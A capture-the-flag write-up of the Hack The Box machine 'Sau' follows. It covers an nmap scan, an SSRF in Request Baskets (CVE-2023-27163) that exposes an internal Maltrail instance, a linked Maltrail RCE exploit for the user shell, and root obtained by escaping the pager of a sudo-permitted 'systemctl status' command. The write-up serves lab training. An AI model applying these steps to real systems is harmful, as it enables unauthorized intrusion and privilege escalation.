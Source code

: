 ```yaml
---
description: Easy machine.
---
```


# Sau

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

## port scan result

```bash
└─➜ nmap 10.10.11.224 -sCV -T5 | tee ports.scan                                                                                                                               [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-30 17:56 IST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.40s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 30 Dec 2023 12:27:17 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 30 Dec 2023 12:26:36 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 30 Dec 2023 12:26:38 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=12/30%Time=65900C81%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;

<--SNIPPED-->

SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.89 seconds
```

* No need of directory bruteforcing for this machine.

## Homepage

* Upon visiting the homepage, we can see that the machine is using vulnerable version of `Request Basket`

![image](https://gist.github.com/assets/56447720/eb023cd7-4f7f-4d5e-b26d-f01b547514d6)

* Read more about this vuln:
* https://github.com/entr0pie/CVE-2023-27163

{% embed url="https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7" %}

## Web Exploit

> Request-baskets is a web application built to collect and register requests on a specific route, so called basket. When creating it, the user can specify another server to forward the request.

* So basically, after creating a basket you can enable forward\_url with malicious IP, so if someone visit your basket, request is forwarded to malicious IP.
* An attacker can put localhost IP and can get information that are not meant to be public.
* Since port 80 was open (filtered) we can ask for request basket to fetch data for us.

### 1. Create a new basket

![image](https://gist.github.com/assets/56447720/a794e96e-0233-4c11-b91d-870b7508517a)

* After creating, it will prompt you with token, Click on Open basket

### 2. Forward Request

* Click on settings

![image](https://gist.github.com/assets/56447720/f94c8f05-19aa-4dbe-be4e-41c09655e67d)

* Configure with following settings

![image](https://gist.github.com/assets/56447720/1c42906f-08f3-4902-a6b6-ccde4bc21dd5)

### 3. Info leak

* After visiting our basket `(sau.htb:55555/<basket_name>)` ![image](https://gist.github.com/assets/56447720/f979ab45-dac0-4475-acb3-c5d0b507c70f)
* We can see it's using Mailtrail
* Upon google search, we can see it's vulnerable to RCE.
* Read more about the vuln :&#x20;

{% embed url="https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5" %}

## User Shell

* [**https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53**](https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53)

![image](https://gist.github.com/assets/56447720/c81e29ab-ce81-4375-bd5f-d591203b7912)

## Root shell

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

* Resource:

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/" %}

```bash
$ sudo  /usr/bin/systemctl status trail.service
sudo  /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning

